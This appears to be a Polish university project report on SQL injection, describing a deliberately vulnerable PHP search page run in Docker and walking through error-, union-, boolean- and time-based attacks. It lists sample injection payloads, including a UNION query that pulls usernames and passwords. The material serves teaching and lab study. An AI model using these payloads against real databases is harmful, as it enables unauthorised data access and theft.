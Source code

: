 # Wstęp

Niniejsze sprawozdanie jest raportem będącym wynikiem badań nad atakami typu **SQL Injection**, przeprowadzonego
w ramach projektu na przedmiot Projektowanie systemów bezpieczeństwa. Zdecydowaliśmy się wykonać
cały projekt z wykorzystaniem oprogramowania XAMPP które umożliwia nam postawienie serwera apache,
bazy danych MariaDB i interpretowanie skryptów w języku PHP.

Do wykonania ataków napisaliśmy prostą stronę z wykorzystaniem języka PHP która pozwala nam na wykonywanie
zapytań do naszej bazy. Sama strona jest bardzo prosta, ponieważ zawiera tylko pole wyszukiwarki co umożliwia 
na proste wykonanie ataku stylu SQL injection.
![img.png](Utilities/site.png)
Sama struktura bazy wygląda następująco:

![img.png](Utilities/database_ER_diagram.png)

Całość projektu zdecydowaliśmy się skonteneryzować z wykorzystaniem Docker'a dla łatwiejszego 
urochamiania całej aplikacji.

# Opis rodzaju ataku

Atak SQL Injection polega na wstrzyknięciu, czyli wstawieniu złośliwego kodu SQL w taki sposób, aby serwer go wykonał. Główną zaletą tego typu ataków dla atakującego jest brak konieczności uzyskania danych autoryzacyjnych serwera SQL - używane jest połączenie utworzone przez serwer lub interfejs usługi.

Możemy wyróżnić kilka podstawowych rodzajów ataku SQLi:
 
 - In-band SQLi
    - Error based
    - Union based
 - Inferential (Blind) SQLi
    - Boolean based
    - Time based
- Out-of-band SQLi

![asd](Utilities/SQLi-attack-types.png)

## In-band SQLi
In-band SQL injection możemy rozróżnić na dwia typy ataków:

- ***Error based*** - atakujący swoim atakiem prowadzi do wyprodukowania wiadomości błędu przez bazę danych, informacje wyświetlone w wiadomości mogą posłużyć do dalszych ataków ze względu na potencjalne odsłonięcie informacji o strukturze bazy.
```
Kwerenda: '
```
![img.png](Utilities/error_based_1.png)
![img_1.png](Utilities/error_based_2.png)

Iterpretacja wyniku: W tym przypadku to co oczekujemy od naszego ataku jest uzyskanie informacji na temat
struktury atakowanej bazy np. typ bazymysql(), gdzie dokłądnie wystąpił błąd, gdzie znajdują się
atakowane pliki

### Przykładowe składnie Error based:
```
 ' 
 ''
 OR 1=1
 OR 1=0
 OR 3409=3409 AND ('pytW' LIKE 'pytW
 OR 3409=3409 AND ('pytW' LIKE 'pytY
 HAVING 1=0--
 ORDER BY 9-- 
 ORDER BY 31337#
```
- ***Union based*** - w przypadku tego typu ataków wykorzystuje się słabość operatora UNION, który łączy ze sobą wyniki kilku zapytań w jeden wynik.
```
Kwerenda: ';SHOW TABLES; SELECT "" FROM DUAL WHERE 'string' LIKE '
```
- ![img.png](Utilities/img.png)

Iterpretacja wyniku: W tym przypadku ważne jest dla nas uzyskanie danych których normalnie nie wyświetliło by zapytanie
lecz dzięki wykonaniu dwóch zapytań na raz jesteśmy w stanie wyciągnąć z bazy interesujące nas informacje w tym przypadku
truktórę tabel.

### Przykładowe składnie Union based:
```
UNION ALL SELECT USER()-- 
UNION ALL SELECT 1
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
' UNION SELECT username || '~' || password FROM users--
```
## Inferential (Blind) SQLi

- ***Boolen based*** - polega na wstrzyknięciu i modyfikacji zapytania w taki sposób, aby baza danych zwróciła wartość TRUE albo FALSE.
```
Kwerenda: FORD%' and 'a%' = 'a
```
![img.png](Utilities/boolen_1.png)
![img.png](Utilities/boolen_2.png)

Iterpretacja wyniku: Iteresuje nas tu wyciągnięce danych z bazy których normalnie zapytanie by nie zwróciło

### Przykładowe składnie Boolen based:
```
WHERE ID = 2 and 1=2
WHERE ID = 2 and 1=1
WHERE username = '[username]' AND password = '[password]'
WHERE username = '[username]' AND password = '' OR 1=1'
or 'a'='b' --
```
- ***Time based*** - polega na wysłaniu zapytania do bazy oraz wymuszonego oczekiwania pewniego przedziału czasu na reakcję bazy. Na podstawie czasu potrzebnego na odpowiedź z bazy atakujący może stwierdzić czy zapytanie jest prawdziwe lub fałszywe.
```
Kwerenda: Ford%; SELECT SLEEP(4); SELECT "waited" FROM DUAL WHERE 'a%' = 'a
```
![img.png](Utilities/sleep.png)

Iterpretacja wyniku: W tym przypadku operujemy na czasie jakim ma poczekać baza na zwróceniu zapytania, co przekłada się na wynik naszego zapytania który może być prawdziwy lub fałszywy

### Przykładowe składnie Time based:
```
WAITFOR DELAY '0:0:30'--
sleep(4)
1 or sleep(5)
ORDER BY SLEEP(5)
AnD SLEEP(5)
waitfor delay '0:0:5'--
```

## Out-of-band SQLi

Przeprowadzenie tego typu ataku wymaga spełnienia pewnych kryteriów(takich jak działanie pewnych funkcji bazy danych). Jest alternatywą do poprzednich ataków stosowaną, gdy serwer jest zbyt wolny lub niestabilny. Opiera się na zdolności tworzenia żądań DNS lub HTTP w celu przesłania danych.

# Podatność na atak

Na atak typu SQL Injection podatne są usługi, które udostępniają użytkownikowi możliwość wysłania tekstu do serwera, który jest bezpośrednio wstawiany do zapytania SQL bez wcześniejszej normalizacji. Przykładem takiego wrażliwego punktu jest wyszukiwarka na stronie internetowej sklepu.

# Potencjalne ryzyko dla ofiary ataku

Baza danych jest kluczowym elementem większości aplikacji internetowych oraz głównym sposobem przechowywania trwałych informacji. Możliwość swobodnego wykonywania zapytań SQL może zapewnić atakującemu dostęp do wszystkich informacji w bazie danych w zależności od uprawnień konta, za pomocą którego serwer łączy się z nią.

# Uruchomienie
Wystarczy uruchomić compose Dockera, wtedy nasz obraz zostanie pobrany z ogólnodostępnego repozytorium i uruchomiony.
```console
sudo docker compose up
```
Strona projektu jest dostępna pod adresem: ***localhost:41062***,

Lub za pomocą ssh: ***port 41061***